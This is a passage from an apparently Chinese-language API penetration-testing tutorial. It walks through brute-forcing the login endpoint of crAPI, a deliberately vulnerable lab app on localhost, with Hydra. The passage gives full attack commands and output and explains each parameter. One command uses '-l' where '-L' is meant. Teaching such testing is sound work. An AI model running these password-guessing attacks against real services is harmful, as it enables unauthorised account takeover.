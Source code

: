 ```
$ hydra -l admin -v -P passlist.txt -s 8888 localhost http-post "/identity/api/auth/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=\"token\":H=Accept: */*:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate, br:H=Referer: http\://localhost\:8888/login:H =Content-Type: application/json:H=Origin: http\://localhost\:8888:H=Connection: close"
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-07 03:09:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50915 login tries (l:1/p:50915), ~3183 tries per task
[DATA] attacking http-post://localhost:8888/identity/api/auth/login
[STATUS] 9112.00 tries/min, 9112 tries in 00:01h, 41803 to do in 00:05h, 16 active
[STATUS] 9234.00 tries/min, 27702 tries in 00:03h, 23213 to do in 00:03h, 16 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-07 03:14:31
```

让我们首先解释一些参数：

+   `-l`：要求你提供唯一的用户名以进行测试。

+   `-v`/`-V`：启用详细模式。

+   `-P`：要求提供一个密码列表文件。

+   `-s`：如果目标没有使用默认端口（`80` 或 `443`），你需要指定端口。

+   `http-post`：需要使用的 Hydra 模块。

双引号中的所有内容要么是标题的一部分，要么是请求体的一部分。`"/identity/api/auth/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}"` 部分包括了 API 端点以及 crAPI 期望接收的 JSON 结构。在这里，`^USER^` 会被你通过 `-l` 提供的登录名替换，而 `^PASS^` 会被 `passlist.txt` 文件中的密码逐一替换。接着，我们指定了在登录成功时期望接收到的内容（`S` 键）。如我们所见，当成功登录时，我们能够访问大量数据，包括一个 `token` 字样，后跟相应的 JWT。所有以 `H=` 开头的元素都是头部的一部分。此外，请注意反斜杠字符（`\`）。它用于转义紧随其后的字符，以便 Hydra 能够正确处理，而不是将其误认为请求的结束引号或分号分隔符。

到目前为止，我们什么也没有找到。让我们改用一个包含多个用户名的登录文件来尝试。这个文件包含如 `admin`、`administrator`、`Administrator`、`admin123` 和 `4dm1n` 这样的行。当然，文件中行数越多，任务就会越长。最好在进行其他操作时让它继续运行。Hydra 还允许你指定希望同时运行的线程数。以下命令可以写成一行：

```
$ hydra -l login.txt -v -P passlist.txt -s 8888 localhost http-post "/identity/api/auth/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=\"token\":H=Accept: */*:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate, br:H=Referer: http\://localhost\:8888/login:H=Content-Type: application/json:H=Origin: http\://localhost\:8888:H=Connection: close"
```

观察并行线程（默认 16 个）正在执行攻击：

```
$ ps a | grep hydra
  15897 pts/0    S+     0:08 hydra -L login.txt -P passlist.txt http-post://localhost:8888/identity/api/auth/login
  15919 pts/0    S+     0:03 hydra -L login.txt -P passlist.txt http-post://localhost:8888/identity/api/auth/login
...
  15933 pts/0    S+     0:03 hydra -L login.txt -P passlist.txt http-post://localhost:8888/identity/api/auth/login
  15934 pts/0    S+     0:02 hydra -L login.txt -P passlist.txt http-post://localhost:8888/identity/api/auth/login
```
